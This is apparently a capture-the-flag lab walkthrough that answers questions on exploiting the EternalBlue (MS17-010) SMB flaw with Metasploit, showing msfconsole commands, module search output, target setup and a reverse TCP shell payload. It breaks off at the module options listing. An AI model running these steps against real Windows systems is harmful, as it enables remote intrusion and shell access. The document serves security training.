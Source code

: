 **Q1: Start Metasploit**
* `msfconsole`

**Q2: Find the exploitation code we will run against the machine. What is the full path of the code?**

Since we already know what the vulnerablity is, EternalBlue, we can use the search function within metasploit to find the code.

* `search eternalblue`
```
msf6 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > 
```
The one we are looking for is **exploit/windows/smb/ms17_010_eternalblue**.

**Q3: Show options and set the one required value. What is the name of this value? (All caps for submission)**

Now that we have found the code needed we need to select and configure it.

type the command: `use 0`

Now that the code is selected lets configure it.

type the command: `show options`

The required value needed is **RHOSTS**. 

type the command: `set rhosts <ip_address_of_machine>`
type the command: `set payload windows/x64/shell/reverse_tcp`

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         <machine_ip>     yes       The target host(s), range CIDR identifier, or hos
                                             ts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authenti
                                             cation. Only affects Windows Server 2008 R2, Wind
                                             ows 7, Windows Embedded Standard 7 target machine
                                             s.
```